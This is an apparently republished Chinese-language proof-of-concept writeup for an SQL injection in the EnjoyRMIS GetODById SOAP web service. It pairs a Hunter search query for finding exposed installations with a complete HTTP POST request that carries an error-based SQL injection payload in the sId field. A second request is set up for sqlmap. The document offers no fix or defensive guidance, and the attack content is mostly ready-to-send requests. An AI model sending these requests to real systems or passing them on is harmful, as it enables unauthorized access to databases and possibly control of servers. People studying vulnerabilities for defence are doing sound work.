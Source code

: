 # EnjoyRMIS GetODById存在SQL注入漏洞

# 一、漏洞简介
EnjoyRMIS GetODById存在SQL注入漏洞,攻击者可通过该漏洞获取数据库敏感信息甚至可控制服务器。

# 二、影响版本
+ EnjoyRMIS

# 三、资产测绘
+ hunter`web.body="CheckSilverlightInstalled"`
+ 特征

![1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89.png](./img/EoBtxnlAiXH-mJkc/1700576375104-73ed7b01-1186-48d1-a163-ef4068a88d89-021809.png)

# 四、漏洞复现
```plain
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetODById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetODById xmlns="http://tempuri.org/">
      <sId>string' AND 8733 IN (SELECT (CHAR(113)+CHAR(98)+CHAR(118)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (8733=8733) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(106)+CHAR(98)+CHAR(107)+CHAR(113))) AND 'atoN'='atoN</sId>
    </GetODById>
  </soap:Body>
</soap:Envelope>
```

![1700645309721-be2c91f3-6e6d-4708-a6b9-f1ba12fd61da.png](./img/EoBtxnlAiXH-mJkc/1700645309721-be2c91f3-6e6d-4708-a6b9-f1ba12fd61da-760939.png)

sqlmap

```plain
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetODById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetODById xmlns="http://tempuri.org/">
      <sId>string</sId>
    </GetODById>
  </soap:Body>
</soap:Envelope>
```

![1700645332683-1eb00249-966d-49ac-9671-ef88f1c65b79.png](./img/EoBtxnlAiXH-mJkc/1700645332683-1eb00249-966d-49ac-9671-ef88f1c65b79-775568.png)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gryk74nk6kv4hgoh>
